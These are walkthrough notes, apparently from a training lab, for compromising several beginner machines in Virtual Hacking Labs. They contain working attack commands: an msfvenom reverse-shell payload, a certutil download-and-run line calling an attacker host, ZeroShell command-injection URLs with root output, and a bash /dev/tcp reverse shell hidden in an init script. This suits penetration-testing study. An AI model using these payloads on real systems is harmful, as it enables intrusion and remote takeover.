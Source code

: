 ## Virtual Hacking Labs

- [Beginner](#Beginner)


### Beginner
#### 10.11.1.36 (Steven)
```bash
Foothold -> Found Wing FTP Server and Login with admin:admin  
Exploit -> RCE

msfvenom -p windows/shell_reverse_tcp LHOST=172.16.1.1 LPORT=4444 -f exe > shell-x86.exe

os.execute('cmd.exe /c certutil.exe -urlcache -split -f http://172.16.1.1:8080/shell.exe C:\Windows\Temp\shell.exe & C:\Windows\Temp\shell.exe')

Escalate -> Don't need
```
#### 10.11.1.48 (Android)
```bash
Foothold -> Found Port 5555 (adb)
Exploit -> Connect with ADB Tool

./adb connect 10.11.1.48:5555
./adb shell

Escalate -> Just su to root
```
#### 10.11.1.60 (Zero)
```bash
Foothold -> Found ZeroShell

Exploit -> RCE
https://10.11.1.60/cgi-bin/kerbynet?Section=NoAuthREQ&Action=x509view&User=Admin&x509type='%0Auname -a%0A'

Linux zeroshell 4.14.29-ZS #4 SMP Mon Mar 26 23:04:36 CEST 2018 i686 GenuineIntel unknown GNU/Linux Linux zeroshell 4.14.29-ZS #4 SMP Mon Mar 26 23:04:36 CEST 2018 i686 GenuineIntel unknown GNU/Linux

Escalate -> sudo by tar
https://10.11.1.60/cgi-bin/kerbynet?Section=NoAuthREQ&Action=x509view&User=Admin&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=id%0A'

uid=0(root) gid=0(root) groups=0(root) uid=0(root) gid=0(root) groups=0(root) 
```
Reference  
 -> https://www.exploit-db.com/exploits/49096  
 -> https://www.tarlogic.com/advisories/zeroshell-rce-root.txt

#### 10.11.1.74 (Mantis)
```bash
Foothold -> Read robots.txt and Found http://10.11.1.74/mantisbt-2.3.0
Exploit1 -> Try to Use RCE (Unauthenticated) it's work but it's a rabbit hole.
Exploit2 -> Use Reset Administrator Password to Exploit
User -> Investigate The Page and Found SSH credential and Use it.
Root -> sudo -l and Found "(ALL : ALL) ALL" Then sudo su
```

#### 10.11.1.83 (John)
```bash
Foothold -> Found Target is Windows XP and Open 445
Exploit -> MS08-067 and MS17-010
```

#### 10.11.1.95 (James)
```bash
Foothold -> Found Apache James Server 2.3.2
Exploit -> Use Public Exploit from https://www.exploit-db.com/exploits/50347

sudo -l
(root) NOPASSWD: /sbin/reboot

Found Can Edit /etc/init.d/james

Escalate -> Edit /etc/init.d/james

---/etc/init.d/james---
#!/bin/bash
sudo JAVA_HOME=/usr/lib/jvm/default-java /home/james/shell.sh
-----------------------

Escalate -> Create shell.sh
---shell.sh---
#!/bin/bash
/bin/bash -i >& /dev/tcp/172.16.1.2/80 0>&1
--------------

Escalate -> sudo /sbin/reboot
```

#### 10.11.1.109 (AS45)
```bash
Foothold -> Found Apache Struts 2
Exploit -> Public RCE 

https://www.exploit-db.com/exploits/41570
python 41570.py http://10.11.1.109:8080/struts2-rest-showcase/orders/6 whoami
```

#### 10.11.1.113 (Anthony)
```bash
Foothold -> Found Port 80 and It is gitstack
Exploit -> Public RCE
https://www.exploit-db.com/exploits/43777
```

#### 10.11.1.124 (Breeze)
```bash

```

#### 10.11.1.177 (CMS01)
```bash
Foothold -> Found Joomla v 3.6.3

Use Joomraa.py
https://github.com/XiphosResearch/exploits/tree/master/Joomraa
Login and read administrator password

Exploit -> Login with Admin Credential then upload shell.php
Escalate -> read /var/www/html/configuration.php and found root password
```